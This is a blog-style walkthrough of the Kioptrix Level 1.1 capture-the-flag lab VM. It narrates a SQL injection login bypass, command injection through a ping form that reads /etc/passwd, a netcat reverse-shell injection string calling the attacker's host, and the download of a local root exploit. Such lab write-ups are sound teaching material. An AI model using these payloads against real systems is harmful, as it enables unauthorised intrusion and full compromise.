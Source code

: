 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

  Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

  The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

  Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129. The attacker finds a simple login form when he lands on the home page, nothing else too exciting here. The page appears to be used for administrative purposes. Well, lets see what he can do with the login form.

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

  The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

  Surprisingly, he was able to display the contents of /etc/passwd, but he will save that for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He needed to see if he could obtain a stable shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

  The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

  He found a local root exploit but the attacker still needed to download the exploit remotely in Kioptrix. He set up a python simple server to host the exploit.

![Image description](/images/kioptrix1.2.13.png)

Once the exploit was hosted, the attacker simply used wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

The attacker was then able to  compile the exploit and run it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

